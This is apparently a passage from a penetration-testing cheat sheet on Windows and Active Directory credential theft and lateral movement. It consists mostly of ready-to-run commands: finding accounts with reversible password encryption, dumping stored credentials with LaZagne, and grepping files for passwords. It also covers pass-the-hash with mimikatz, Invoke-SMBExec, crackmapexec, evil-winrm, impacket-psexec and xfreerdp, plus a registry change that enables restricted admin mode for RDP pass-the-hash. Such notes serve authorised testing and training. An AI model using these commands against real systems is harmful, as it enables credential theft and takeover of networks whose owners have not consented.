 ```shell
# Get list of users
Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl

# Verify if reversible encryption is enabled
Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol
```

> Secretsdump.py will save reversible passwords in plain text.

### Credential Hunting

```shell
# Find all credentials in system
start lazagne.exe all

# Configuration files
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
```

## Windows Lateral Movement

### Pass The Hash (PtH)

- From windows host:

```shell
# Using mimikatz
privilege::debug 
sekurlsa::pth /user:$USERNAME /rc4 or /NTLM:$HASH /domain:$DOMMAIN /run:cmd.exe

# Using Invoke-TheHash
Import-Module .\Invoke-TheHash.psd1
Invoke-SMBExec -Target $TARGET_IP -Domain $DOMAIN -Username $USERNAME -Hash $HASH -Command $COMMAND -Verbose
```

- From linux host:

```shell
# Checking access on subnet
crackmapexec smb $SUBNET -u $USER -d . -H $HASH

# Getting shell
evil-winrm -i $TARGET_IP -u $USER -H $HASH
impacket-psexec $USER@$TARGET_IP -hashes :$HASH

# Using RDP
## Enable restricted admin mode to allow PtH
cmd > reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f

## Getting rdp session
xfreerdp  /v:$TARGET_IP /u:$USER /pth:$HASH
```
> UAC (User Account Control) limits local users' ability to perform remote administration operations. When the registry key `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy` is set to `0`, it means that the built-in local admin account is the only local account allowed to perform remote administration tasks. Setting it to `1` allows the other local admins as well.
